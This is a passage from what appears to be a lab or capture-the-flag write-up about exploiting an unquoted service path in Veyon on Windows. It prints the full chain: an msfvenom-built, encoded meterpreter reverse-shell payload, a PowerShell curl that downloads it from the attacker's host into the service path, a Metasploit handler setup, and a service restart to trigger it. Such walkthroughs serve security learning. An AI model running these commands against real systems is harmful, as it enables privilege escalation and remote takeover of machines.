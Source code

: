In order to exploit the unquoted path vulnerability, we generated a meterpreter payload and stored it at the path `C:\Program Files\Veyon\Veyon.exe` that precedes the unquoted path `C:\Program Files\Veyon\Veyon Service\Veyon\veyon-service.exe`:

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.65 LPORT=8383 -e x64/xor_dynamic -b "\xf6" -f exe > m.exe

PS C:\Program Files\Veyon> powershell curl http://10.10.14.65:8080/m.exe -o Veyon.exe
powershell curl http://10.10.14.65:8080/m.exe -o Veyon.exe

PS C:\Program Files\Veyon> dir
dir

    Directory: C:\Program Files\Veyon

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/25/2021   4:02 AM                Veyon Service                                                         
-a----        7/26/2021   5:43 PM           7168 Veyon.exe          
```

Then, we started a metasploit handler:

```bash
$ msfconsole
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8383
LPORT => 8383
msf6 exploit(multi/handler) > use payload/cmd/unix/interact
msf6 payload(cmd/unix/interact) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8383
LPORT => 8383
msf6 exploit(multi/handler) > set LHOST 10.10.14.65
LHOST => 10.10.14.65
msf6 exploit(multi/handler) > set LHOST 10.10.14.65
LHOST => 10.10.14.65
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

We triggered the vulnerability by restarting the `Veyon` service:

```bash
PS C:\Program Files\Veyon> net stop VeyonService
net stop VeyonService
The Veyon Service service is stopping..
The Veyon Service service was stopped successfully.

PS C:\Program Files\Veyon> net start VeyonService
net start VeyonService
```
